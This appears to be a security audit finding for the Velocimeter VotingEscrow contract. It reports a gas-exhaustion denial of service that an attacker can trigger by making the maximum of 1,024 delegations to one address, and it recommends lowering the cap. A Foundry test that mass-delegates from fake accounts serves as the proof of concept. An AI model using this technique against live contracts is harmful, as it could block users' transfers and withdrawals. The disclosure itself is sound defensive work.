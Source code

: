 Cold Vermilion Mockingbird

High

# DOS attack by delegating tokens at MAX_DELEGATES = 1024

DanielWang8824

## Summary

VotingEscrow.transfer/burn/mint function could get DOS attack by delegating tokens at MAX_DELEGATES = 1024

## Vulnerability Detail

There is delegate maximum value.
https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L1266

   ` uint public constant MAX_DELEGATES = 1024; // avoid too much gas`

Any user can delegate the balance of the locked NFT amount to anyone by calling delegate. As the delegated tokens are maintained in an array that's vulnerable to DOS attack, the VotingEscrow has a safety check of MAX_DELEGATES = 1024 preventing an address from having a huge array. Given the current implementation, any user with 1024 delegated tokens takes approximately 23M gas to transfer/burn/mint a token. However, the current gas limit of the op chain is 15M.

## Impact
VotingEscrow.transfer/burn/mint function could get DOS attack by delegating tokens at MAX_DELEGATES = 1024

## Code Snippet

Here is the unit test code.
```solidity
function testDelegateLimitAttack() public {
    uint256 lockDuration = 7 * 24 * 3600; // 1 week
    vm.prank(address(owner));
    flowDaiPair.transfer(address(this), TOKEN_1);
    flowDaiPair.approve(address(escrow), TOKEN_1);    
    uint tokenId = escrow.create_lock(TOKEN_1, 7 days);
    // Maximum loopCount is escrow.MAX_DELEGATES() - 1, 
    // But We only test with 300 delegates now
    uint32 loopCount = 298; // escrow.MAX_DELEGATES() - 1;
    for(uint256 i = 0; i < loopCount; i++) {
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);
        address fakeAccount = address(uint160(420 + i));
        flowDaiPair.transfer(address(fakeAccount), TOKEN_1);
        vm.startPrank(fakeAccount);
        flowDaiPair.approve(address(escrow), TOKEN_1);
        escrow.create_lock(TOKEN_1, lockDuration);
        escrow.delegate(address(this));
        vm.stopPrank();
    }
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + 7 days);
    uint initialGas = gasleft();
    escrow.withdraw(tokenId);
    uint gasUsed = initialGas - gasleft();
    console.log(gasUsed);
    // @audit: setting 5_000_000 to demonstrate the issue. 
    // 2~3M gas limit would be a safer range.
    assertLt(gasUsed, 5_000_000);    
}
```

But gas was used 7,031,297 for 300 delegates. The above test case is failed.
If we use 1023 delegates, then the gas will be used 20M over

## Tool used

Manual Review

## Recommendation
Adjust the MAX_DELEGATES=1024to 128;
